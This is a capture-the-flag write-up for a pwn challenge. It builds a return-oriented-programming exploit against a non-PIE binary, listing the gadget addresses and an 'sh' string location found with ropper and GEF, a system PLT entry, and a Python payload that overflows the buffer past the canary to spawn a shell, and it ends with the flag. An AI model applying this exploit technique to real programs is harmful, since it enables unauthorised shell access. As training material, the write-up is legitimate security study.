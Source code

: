 # Writeup
The third and final challenge from the Mail series. This time we do not have any libc, only the binary. After running it, there doesn't seem to be any difference, besides the date after logging in. Running `checksec` in GDB reveals that the binary was compiled with `-no-pie` flag, which means that the program will be loaded into the same position each time it is run. With that being said, let's craft our exploit.

We will need:
- pop rdi; ret;
- ret;
- /bin/sh or just sh
- system

Exactly like last time.

The `pop rdi; ret;` and `ret` is straightforward with the only difference that we are loading the binary, not libc.
```
$ ropper
ropper> search pop rdi;
0x0000000000401288: pop rdi; ret;
ropper> search ret;
0x000000000040101a: ret;
```

The `sh` can be found using GDB Enhanced Features' `search-pattern`. Remember, that we have to find it inside the binary, not libc.
```
search-pattern "sh"
...
0x403682 - 0x403684  →   "sh"
...
```

The last item on our list is `system`. Remember the date function? It most probably was called as `system("date")` in the binary. Let's disassemble the `welcome_screen` function.

We indeed can see the call to the `system` referenced by the `.plt` table. We can disassemble this address to get to the `.got` table.
```
0x0000000000401124 <+4>:     bnd jmp QWORD PTR [rip+0x2f0d]        # 0x404038 <system@got.plt>
```

Now we are ready to finish the exploit. We can reuse previous one for the canary and only changed the payload.
```
ret = 0x40101a
gadget = 0x401288
shell = 0x403682
system = 0x401124

payload = b"2\nb\nb\n" 
payload += b'A' * 104
payload += p64(canary) 
payload += b'B' * 8
payload += p64(ret)
payload += p64(gadget)
payload += p64(shell)
payload += p64(system)
```

Sending that we get the shell and read the flag from `chall/flag.txt`

```
CTF{h3_r34lly_d0_83_7h3_0n3_wh0_h4ck5}
```
